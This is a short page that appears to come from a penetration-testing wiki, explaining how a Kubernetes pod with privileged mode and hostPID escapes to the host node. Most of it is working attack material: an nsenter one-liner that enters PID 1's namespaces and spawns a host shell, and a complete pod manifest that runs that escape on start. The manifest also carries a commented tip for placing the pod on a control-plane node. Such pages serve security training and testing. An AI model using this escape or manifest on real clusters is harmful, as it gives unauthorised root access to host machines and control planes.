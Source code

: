 # Pod Escape Privileges

{{#include ../../../banners/hacktricks-training.md}}

## Privileged and hostPID

With these privileges you will have **access to the hosts processes** and **enough privileges to enter inside the namespace of one of the host processes**.\
Note that you can potentially not need privileged but just some capabilities and other potential defenses bypasses (like apparmor and/or seccomp).

Just executing something like the following will allow you to escape from the pod:

```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

Configuration example:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: priv-and-hostpid-exec-pod
  labels:
    app: pentest
spec:
  hostPID: true
  containers:
    - name: priv-and-hostpid-pod
      image: ubuntu
      tty: true
      securityContext:
        privileged: true
      command:
        [
          "nsenter",
          "--target",
          "1",
          "--mount",
          "--uts",
          "--ipc",
          "--net",
          "--pid",
          "--",
          "bash",
        ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
```

{{#include ../../../banners/hacktricks-training.md}}



